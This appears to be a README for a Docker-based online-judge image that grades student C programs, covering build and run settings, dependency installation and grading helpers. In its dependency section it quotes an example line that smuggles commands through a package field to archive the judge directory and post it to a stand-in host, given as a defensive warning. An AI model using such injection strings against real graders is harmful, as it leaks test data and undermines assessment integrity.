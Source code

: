 # OJ Sample judging image

This image serves as a base for grading student submissions. 
There are many hardcoded restrictions so please do read this document! 
If in doubt, you can consult the reference implementation.

# Quick start

We have set up this base image for simple judging tasks, which

* runs on ubuntu 16.04
* submission is a single c source file named `main.c` targeting c11
* compiled binary takes input from STDIN and print to STDOUT
* output is graded by `diff`ing it with a predefined reference output
* may have numerous test cases
* does not require installing student-defined dependencies with `apt` or `pip3`

If your need happens to match this, you can start reading the section on
where to place test data. 
If not, we have also written a few common customization guides.
If all failed, please refer to the [WALKTHROUGH.md](WALKTHROUGH.md)
we have written. 
This detailed guide contains everything you will need to rewrite this
image to suit your needs.

## Test data location
It is placed in `tests/` directory. Please refer to readme inside those 
directories on details.

## Customize build command

1. Edit `build` script. 
1. Replace line 4 with your command.
1. If your command require addition packages, please add them to
relevant location in `Dockerfile`

Please be ware your compile command have connectivity to the internet.

Please note the default run script requires an executable file at 
`/test/executable` as the student program.
Since you are using custom compile command, you may also wish to use
a custom run command.

## Customize run command
1. Edit `run.py` script. 
1. Replace line 101 with the executable.
2. Replace line 106 with the arguments to the executable including `argv[0]`
 which is executable name.
1. There are various other settings can be changed in the script.
 
 For anything more advanced

## Install student defined dependencies

*If you are using python, please note `pip install .` is considered a 
build command and should not be used here.*

Uncomment everything inside `setup` script. 

Oh, Please don't uncomment the shebang line (`#!/usr/bin/env bash` line)

This will allow student to place a file named dependencies. 
This file is a key-value file, with key being the installation method,
and the value being the dependency.
One pair per line.
The key-value is separated with three colons (`:::`)
This image comes with `apt` and `pip3` installation method but it is 
easy to define your own.

NOTE: For sake of security, we enforce a rule of *one dependency per line*.

### Adding/removing custom dependency installation method

Open `dep.awk`, while you may not be familiar with awk, the template 
should be easy enough to follow.

First, you select a good identifier to indicate the installation method.
This identifier does not need to have connection with the actual
install command, e.g. `asjdui` can be used to identify `pip3 install -U`
but your student will believe you can't name things properly.

You then think of how the actual installation should commence.
You should write a command template that would install the package.

You now fill the following template and append the result to `dep.awk`.

    $1~/<identifer>/ {
        print "run_cmd.py <install command>" "--" $2 
    }

---

Remember the student may give a line like this

    apt:gcc;tar -zcvf /t /judge;curl -X POST example.com/post -d /t

So it's suggested to pass the dependency as a single argument. 
This is also why we enforce the rule of *one dependency per line*.

We have provided two wrappers `run_cmd.py` and `run_cmd_no_slash.py`
to facilitate this need.

The first wrapper will take first argument as target executable, other 
argument before `--` as options, and join everything after `--` with
a space as delimiter and use the result as a whole as the last argument 
to the target executable.   

The second wrapper will additionally reject any package that has `/` in
it.
This will be helpful to prevent package manager from installing from 
local directory, as installation script of a local package is not as
trusty as one on e.g. `PyPI`.

# Customize grading method
It is suggested to use the utilities in `grading/util.py` as the OJ
requires a specific pattern in `STDOUT` to be able to read the grading
result.

You can consult `grading/grade.py` on how to use it.
adsfdsadfafds
adfadfadfsdafsdfsafds
